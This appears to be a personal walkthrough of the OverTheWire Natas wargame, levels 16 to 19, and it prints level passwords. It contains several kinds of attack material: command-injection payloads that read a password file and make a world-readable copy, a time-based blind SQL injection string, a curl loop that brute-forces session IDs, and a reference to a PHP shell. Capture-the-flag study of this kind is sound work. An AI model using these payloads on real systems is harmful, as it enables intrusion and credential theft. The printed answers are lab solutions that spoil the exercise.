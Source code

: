 Given that I can't curl from port 8000 on a domain I have, I'm assuming that network connections are blocked.

The output of the subshell is inserted into the grep command inside its quotes.

Grep is being used as case insensitive, so even if I can extract each character separately and search for it, I'd have to check many combinations of case. Not to mention that some of the characters are digits (i.e. the first one!) and so won't have results in the dictionary file.

	$(mkdir /tmp/zimbix-natas16)
	$(cat /etc/natas_webpass/natas17 > /tmp/zimbix-natas16/natas17)
	$(chmod 777 /tmp/zimbix-natas16/natas17)

Then using my PHP shell from level 12 and 13, run:

	cat /tmp/zimbix-natas16/file

8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

## 17

Very similar to level 15 (content-based blind SQLi), except this time there are no responses. We will have to use sleeps for checks (time-based blind SQLi).

Todo: Load the previous Ruby script, and monkey-patch / rewrite to be more modular.

	natas18" AND password REGEXP BINARY '^.*$' AND SLEEP(5) -- 

....

xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

## 18

Try every session ID

	for i in `seq 0 641`; do; curl 'http://natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP@natas18.natas.labs.overthewire.org/index.php?debug' -b PHPSESSID=$i -s | grep -2 'The credentials for the next level are:'; echo $i; done

ID = 46 did it! XP

4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## 19

''
''
3633322d

'a'
''
3430382d61
3136392d61

3236332d61646d696e
34362d61646d696e
